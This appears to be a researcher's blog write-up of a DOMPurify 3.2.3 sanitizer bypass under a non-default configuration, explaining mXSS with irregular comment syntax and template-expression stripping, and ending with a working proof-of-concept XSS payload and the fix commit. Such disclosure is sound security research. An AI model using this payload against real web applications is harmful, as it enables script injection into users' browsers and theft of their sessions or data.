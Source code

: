 ```yaml
---
title: DOMPurify 3.2.3 Bypass (Non-Default Config)
excerpt: A write up of a bypass in DOMPurify 3.2.3 I found
publishDate: 'Jan 29 2025'
tags:
  - Write Up
  - XSS
isFeatured: true
---
```


### Introduction

I found a bypass in DOMPurify which allows for sanitized HTML to cause XSS on the first day of the Chinese New Year! Here is how.

### Explanation
From looking at the previous few DOMPurify bypasses, a common theme can be spotted: the payloads are usually a combination of mXSS + comments in attribute values.

And if you take a look at `src/purify.ts` in DOMPurify, it does seem like cure53 have patched both comments and CDATA, or have they?

```js
/* Work around a security issue with comments inside attributes */
if (SAFE_FOR_XML && regExpTest(/((--!?|])>)|<\/(style|title)/i, value)) {
    _removeAttribute(name, currentNode);
    continue;
}
```

If we take a close look at the WHATWG HTML specification, we can see that comments not only come in the form of `<!-- ... -->` but also in `<! ... >` due to the [incorrectly opened comment exception](https://html.spec.whatwg.org/multipage/parsing.html#parse-error-incorrectly-opened-comment).

This on paper allows us to sneak comment end tags in attribute values if they are in the form of `<! ... >`... right?

If you have experience with mXSS, you might know that the it works because when comments are wrapped in a specific payload, it is treated as text in the first parsing(DOMPurify), but treated as a comment in the second parsing(browser).

However the payloads for mXSS require that the sneaked in comments be wrapped in `<style>` tags. Plus, DOMPurify removes all possible tags from text nodes, so the comment end tag must be in an attribute value.

But we want to achieve this... How?
`<style><! ... <a id='><img src onerror="alert(1)">'`

Another challenge presented is that we can't simultaneously have both comments and HTML elements in the `<style>` tag due to DOMPurify and how HTML works, so we can't "mutate" the anchor tag in.

At the bottom of the DOMPurify sanitize function, we see that there is a somewhat dangerous sanitization, replacing possible template expressions with spaces. This made me wonder, whether I could remove the closing style tag with this.

```js
    /* Sanitize final string template-safe */
    if (SAFE_FOR_TEMPLATES) {
      arrayForEach([MUSTACHE_EXPR, ERB_EXPR, TMPLIT_EXPR], (expr) => {
        serializedHTML = stringReplace(serializedHTML, expr, ' ');
      });
    }

return trustedTypesPolicy && RETURN_TRUSTED_TYPE
  ? trustedTypesPolicy.createHTML(serializedHTML)
  : serializedHTML;
};
```

Well turns out you can... Here is the full PoC.

### PoC
*mXSS portion taken from [Yaniv Nizry](https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/)*
```js
DOMPurify.sanitize(
  `<math><foo-test><mi><li><table><foo-test><li></li></foo-test><a>
      <style>
        <! \${
      </style>
      }
      <foo-b id="><img src onerror='alert(1)'>">hmm...</foo-b>
    </a></table></li></mi></foo-test></math>
  `,
  {
    SAFE_FOR_TEMPLATES: true,
    CUSTOM_ELEMENT_HANDLING: {
      tagNameCheck: /^foo-/,
    },
  }
);
```

### References
https://github.com/cure53/DOMPurify/commit/d18ffcb554e0001748865da03ac75dd7829f0f02
https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/